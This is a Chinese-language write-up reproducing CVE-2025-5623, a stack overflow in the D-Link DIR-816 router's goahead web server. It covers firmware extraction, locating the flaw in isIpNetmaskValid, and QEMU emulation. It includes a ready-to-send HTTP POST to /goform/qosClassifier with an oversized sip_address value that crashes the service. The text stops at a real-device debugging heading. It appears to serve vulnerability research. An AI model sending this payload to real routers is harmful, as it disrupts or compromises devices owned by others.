 # CVE-2025-5623 DIR816 路由器栈溢出复现

## 路由器漏洞分析

在官网下载对应版本固件

https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-816

使用 `binwalk` 查看信息，没有加密对其直接进行解包，提取出系统进行分析。

```bash
binwalk -Me DIR-816A2_FWv1.10CNB05_R1B011D88210.img
find ./ -iname 'busybox'
cp -r ./extractions/DIR-816A2_FWv1.10CNB05_R1B011D88210.img.extracted/0/Linux_Kernel_Image.bin.extracted/1822EE/squashfs-root/ .
```

![image](.pictures/CVE-2025-5623-1-1.png)

这个漏洞存在于 `/bin/goahead` 程序中 `isIpNetmaskValid` 函数中，由于主调函数的 `sip_address` 和 `dip_address` 参数可控，在其后传参并调用的此函数中，直接对字符串进行了写入操作，无论传入参数长如为何，都会被复制到 `local_30` 变量中，涉及到有危险的入口函数有三个 `FUN_0044ab48` `FUN_0044dde8` 和 `FUN_0046bb80`，在这里我使用了 `FUN_0046bb80` 进行漏洞复现。

( `FUN_0046bb80` 中，关于 `sip_address` 和 `dip_address` 的获取。 )

![image](.pictures/CVE-2025-5623-1-2.png)

( `FUN_0046bb80` 中，将 `sip_address` 和 `dip_address` 传入危险函数。 )

![image](.pictures/CVE-2025-5623-1-3.png)

( `isIpNetmaskValid` 中，漏洞片段。 )

![image](.pictures/CVE-2025-5623-1-4.png)

也就是我们可以使用 `sip_address` 或 `dip_address` 参数，对其进行栈溢出攻击。接着，我们去寻找漏洞的接口点，首先，根据后面的判定写一些padding保证程序能够向下运行到目标函数，然后补充最简单的漏洞测试脚本。

![image](.pictures/CVE-2025-5623-1-5.png)

得到的必须参数：

```nginx
dir=A&af_index=A&dp_index=A&comment=A&pktlento=A&pktlenfrom=Aremark_dscp=A&sip_address=vul
```

然后，对交叉引用进行跟踪，发现函数 `formDefineFirewall` 定义了相关的接口调用。

![image](.pictures/CVE-2025-5623-1-6.png)

于是，我们可以了解最终调用的接口是 `/goform/qosClassifier` ，最终包为：

```
POST /goform/qosClassifier HTTP/1.1
Content-Length: 471
Host: 192.168.1.2
Content-Type: application/x-www-form-urlencoded
Connection: close

dir=A&af_index=A&dp_index=A&comment=A&pktlento=A&pktlenfrom=Aremark_dscp=A&sip_address=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

## 漏洞模拟复现

我们使用 qemu user 进行仿真模拟：

```bash
sudo chroot . ./qemu-mipsel-static -strace ./bin/goahead
```

然后对所有出现的报错进行patch修改，即使能看到多出天际的报错，至少是跑起来了，毕竟和真机的环境差了十万八千里。反正在咸鱼花费15巨资买了真机，在这里运行起来便是完事大吉。

![image](.pictures/CVE-2025-5623-2-1.png)

我们使用 burp 对主页抓包，然后修改内容为我们的目标包：

![image](.pictures/CVE-2025-5623-2-2.png)

可以看到我们仿真的程序出现了segmentation fault，应该是栈溢出的结果。

![image](.pictures/CVE-2025-5623-2-3.png)

## 真机漏洞复现和调试